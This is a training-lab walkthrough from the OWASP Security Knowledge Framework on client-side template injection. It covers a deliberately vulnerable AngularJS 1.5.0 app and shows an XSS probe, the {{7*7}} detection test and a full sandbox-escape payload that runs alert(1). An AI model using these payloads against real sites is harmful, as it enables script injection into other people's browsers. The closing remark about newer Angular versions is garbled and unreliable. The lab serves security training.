


# Client Side Template Injection - CSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-csti
```


Now that the app is running let's go hacking!


## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.ejs` page in the source code, we can see that a variable `<%= CSTI %>` is used in the page

```html
<center><p style="font-size:2em;"><%= CSTI %></p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

We are going to use the same payload of the XSS lab

```html
">
<script>
  alert("XSS");
</script>
```

Unfortunately the alert does not trigger :(



This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

How do we get XSS?

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!

Bingo!!

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox
- forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed



Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources




